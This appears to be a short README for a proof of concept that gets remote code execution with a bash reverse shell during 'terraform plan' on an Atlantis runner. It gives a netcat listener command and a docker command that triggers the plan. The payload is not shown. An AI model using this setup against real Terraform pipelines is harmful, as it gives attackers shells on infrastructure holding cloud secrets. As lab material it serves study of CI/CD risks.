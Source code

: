
# Overview
Src - https://alex.kaskaso.li/post/terraform-plan-rce

But with bash reverse shell, as on terraform runner

# Testing with atlantis locally

## One terminal tab (either locally or on different host)
```bash
nc -vklp  4242
```

## Second terminal tab (either same host or remote host)

```bash
# `--net=host` is only needed if you want to connect to same host, where docker container is running
# Then in exploit, you need to use as remote address `host.docker.internal` as equivalent to `localhost` pointing from container to its host system
docker run --net=host -v "$(pwd)":/app -it ghcr.io/runatlantis/atlantis bash -c "cd /app; terraform init; terraform plan"
```


